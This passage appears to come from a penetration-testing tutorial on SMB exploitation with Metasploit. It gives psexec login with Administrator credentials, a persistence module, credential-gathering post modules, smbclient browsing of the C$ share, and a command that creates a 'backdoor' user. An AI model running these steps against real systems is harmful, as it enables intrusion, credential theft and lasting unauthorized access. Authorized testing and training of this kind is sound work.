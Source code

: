 **Strategic Advantages:**
- **Database Integration:** Maintain comprehensive target and credential database
- **Efficient Targeting:** Focus attacks on confirmed SMB services
- **Team Coordination:** Share credential discoveries across assessment team
- **Progress Tracking:** Monitor assessment progress and coverage

**Related Guide:** See [hydra-complete-guide.md](../08-password-attacks/hydra-complete-guide.md) for alternative credential attack methods.

#### **Step 3: Systematic Exploitation and Access**
```bash
# Prioritize targets with administrative access
use exploit/windows/smb/psexec
set RHOSTS target_with_admin_creds
set SMBUser Administrator
set SMBPass discovered_password
exploit

# Establish persistent access methods
use post/windows/manage/persistence
set SESSION 1
exploit

# Information gathering from compromised systems
use post/windows/gather/enum_logged_on_users
use post/windows/gather/credentials/credentials_collector
set SESSION 1
exploit
```

**Operational Benefits:**
- **Systematic Approach:** Methodical exploitation of highest-value targets
- **Persistence:** Maintain access for ongoing assessment activities
- **Intelligence Collection:** Gather additional credentials and system information
- **Lateral Movement:** Use compromised systems for further network access

**Related Guide:** See [maintaining-access.md](../10-post-exploitation/maintaining-access.md) for post-exploitation techniques.

### **🔧 Integration with Manual Tools:**
```bash
# Combine automated and manual approaches
# Step 1: Automated discovery
nmap --script smb-vuln-* target_range

# Step 2: Manual verification
smbclient -L //target_ip -U username%password
# Verify share access manually

# Step 3: File system exploration
smbclient //target_ip/C$ -U Administrator%password
smb: \> dir
smb: \> get flag.txt

# Step 4: Advanced exploitation
use auxiliary/admin/smb/psexec_command
set RHOSTS target_ip
set SMBUser Administrator
set SMBPass password
set COMMAND "net user backdoor password123 /add"
exploit
```
